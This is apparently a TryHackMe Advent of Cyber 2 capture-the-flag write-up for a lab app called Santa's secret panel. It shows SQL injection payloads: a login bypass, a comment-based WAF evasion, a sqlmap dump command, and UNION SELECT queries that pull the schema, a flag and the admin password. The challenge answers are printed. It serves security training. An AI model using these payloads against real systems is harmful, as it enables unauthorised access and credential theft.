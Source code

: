 # Advent of cyber 2 | day 5 | Someone stole Santa's gift list!

> Tal Baraz

-----

For me the ip for the machine was: `10.10.3.234` it'll probably be diffrent for you.

## Question 1
*Without using directory brute forcing, what's Santa's secret login panel?*

after hading to `http://10.10.3.234:8000/` (like the text about suggested) and not seeing anything potentially vulnerable
and after looking at the hint: *The name is derived out of 2 words from this question.*

So I tried:
- /secretpanel
- /secretlogin
- /loginpanel
- /santalogin
- /santasecret

and I finally got it right on:
- /santapanel

I've probably could have guest that the first time by just looking at the length of the answer.

## Question 2
*Visit Santa's secret login panel and bypass the login using SQLi*

No answer needed

I manged to bypass the login form with a simple SQLi: `' or 1=1 --`

- Note: The challange suggest there's a WAF preventing spaces, but I didn't had this problem in my SQLi
However if they do change it in the future all you need to do is replace every space with a comment:
`' or 1=1 --` -> `'/**/or/**/1=1/**/--`.

## Question 3
*How many entries are there in the gift database?*

again with the same SQLi as before: `' or 1=1 --` I got all the enteries.

I could easily copy the table (Not inculding the headers) into a file i.e giftdb and use `wc` to count the number of lines, like a so:
```bash
cat giftdb | wc -l
```
and so the output is: `22`
- Note: don't forget to put a newline at the end of the last entrey, otherwise `wc` wouldn't count it as a line.

## Question 4
*What did Paul ask for?*

Because we have all the enteries, I just ran:
```bash
cat giftdb | grep -i paul 
``` 
and so the output is: `github ownership`

## Question 5
*What is the flag?*

- Note: I prefer to not use automated tools and so I will try to break in without `sqlmap`.

However I will provide you with the sqlmap command which will lead you to the flag and the admin's password
```bash
sqlmap -p search -r req --tamper=space2comment --dbms sqlite --batch --dump-all
```
- The `req` file is the request I captured with Burpsuite like they showed above. 
---
Moving on I first tried to see if there are really only 2 columns like we can see in the website so I searched:
```
' ORDER BY 1,2,3 --
```
And got a lovely error message telling me *3rd ORDER BY term out of range - should be between 1 and 2* so I know there's only 2 columns
after that using https://github.com/unicornsasfuel/sqlite_sqli_cheat_sheet this great cheatsheet for sqlite sqli's

I entered:
```
@' UNION SELECT sql,1 FROM sqlite_master WHERE type='table' --
```
- Note: the `@` is not necessary but for a cleaner input I put a charecter that is not in the gifts database.

and got this:

![Table names](./screenshots/table_names.png)

so we can see there are 3 tables:
- sequels: having a title, kid name, and age so we can understand that's the gift datebase on the website so nothing on intrest here.
- hidden_table: as we are looking for the flag the the table has 1 colunm for flag we can assume it's in there
- users: this might be useful for the sixth question when we are looking for the admin's password 

so with a simple sql query I could see the contents of hidden_table:
```
@' UNION SELECT flag,1 FROM hidden_table --
```
![Flag](./screenshots/flag.png)

And so the flag is: `thmfox{All_I_Want_for_Christmas_Is_You}`

## Question 6
*What is admin's password?*

Same as before I will look at the `users` table, like a so:
```
@' UNION SELECT username,password FROM users --
```
And I get just a single entry which is the admin's password:

![Admin password](./screenshots/admin_password)

And finaly the admin password is: `EhCNSWzzFP6sc7gB`